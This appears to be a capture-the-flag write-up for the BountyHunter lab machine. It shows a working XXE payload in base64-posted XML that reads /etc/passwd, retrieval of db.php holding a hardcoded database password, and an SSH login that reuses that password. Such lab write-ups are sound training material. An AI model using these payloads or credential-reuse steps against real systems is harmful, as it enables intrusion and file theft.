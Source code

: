 Doing some simple enumeration on the web server shows an interesting page *portal.php*
- Going to this page only shows this message
![[Pasted image 20210806115139.png]]
Follow the link to see the following page
![[Pasted image 20210806115230.png]]
Using burpsuite to capture the request after hitting the submit button shows that the data is being base64'd and then posted to *tracker_diRbPr00f314.php*
![[Pasted image 20210806115455.png]]
base64 decode this to show that it's all xml
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
                <bugreport>
                <title>title</title>
                <cwe>cwe</cwe>
                <cvss>score</cvss>
                <reward>reward</reward>
                </bugreport>
```
Think this might be an XXE vector...try simple LFI
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
                <bugreport>
                <title>&xxe;</title>
                <cwe>cwe</cwe>
                <cvss>score</cvss>
                <reward>reward</reward>
                </bugreport>
```
base64 this and post it to the proper page to get the passwd file
![[Pasted image 20210806115920.png]]
Gobuster showed that there was a file *db.php* that existed in the webroot -> try grabbing that with php filter
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
Know from passwd file that the only user permitted a shell (other than root) is the *development* user...Password reuse?
```bash
-> % ssh development@10.10.11.100
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[snip]
Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$ id
uid=1000(development) gid=1000(development) groups=1000(development)
```